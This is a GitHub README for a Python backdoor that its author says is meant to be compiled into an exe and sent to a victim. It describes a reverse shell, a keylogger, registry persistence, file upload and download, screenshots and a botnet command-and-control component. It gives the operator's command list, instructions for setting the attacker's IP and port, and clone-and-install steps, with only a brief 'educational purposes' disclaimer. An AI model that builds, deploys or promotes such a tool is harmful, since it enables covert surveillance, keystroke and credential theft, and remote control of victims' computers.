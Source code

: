 -----

<p align="center">
<img src="https://repository-images.githubusercontent.com/437662725/49b887df-c77c-4365-9d15-c3357d8148ad", width="500", height="500">
</p>

-----
### <p align="center">📌 Disclaimer 📌</p>

<br><br>
* ***Please use this program only for educational purposes.***
* ***It is not meant to be used in any malicious way, and I decline any responsibility for what you do with it.***
<br><br>
## !! **Warning** this version doesn't support camera features it will be next version.
## A Backdoor based on python.
* Just create exe and send to the victim.
* In exe include keylogger also
* It is based on TCP and IPv4 connection.
* It will create a reverse shell connecion form victim system.
***
## Use
* It has command like persistence to boot itself when system restart , it also have keylogger, upload and download.
* It also have cnc or we call botnet.
***
### Use command like this.
```
            quit                                --> Quit Session With The Target
            clear                               --> Clear The Screen
            cd *Directory Name*                 --> Changes Directory On Target System
            upload *file name*                  --> Upload File To The target Machine
            download *file name*                --> Download File From Target Machine
            keylog_start                        --> Start The Keylogger
            keylog_dump                         --> Print Keystrokes That The Target Inputted
            keylog_stop                         --> Stop And Self Destruct Keylogger File
            persistence *RegName* *fileName*    --> Create Persistence In Registry'''),'green')
            screenshot                          --> To Take Screenshot of victim screen
```
***
* Put your ip and port at there place (sock.bind(('127.0.0.1', 4444))) like this at line 84 in server for backdoor at line 62 and in cnc at line 103.
***
```
git clone https://github.com/Malwareman007/malwareman_backdoor.git
cd malwareman_backdoor/setup
python3 -m pip install --no-cache-dir -r requirements.txt
```
***
### **Detection Of Exe**
![Detection](https://user-images.githubusercontent.com/86009160/171167620-10bbaf90-d6bf-4d39-8982-e49ed612feb3.jpg)

### <p align="center">Malwareman007</p>

## 🤝 Contributing

Contributions, issues and feature requests are welcome!<br />Feel free to check [issues page](https://github.com/Malwareman007/malwareman_backdoor/issues).

## ❤ Show your support

Give a ⭐️ if this helped you!


***
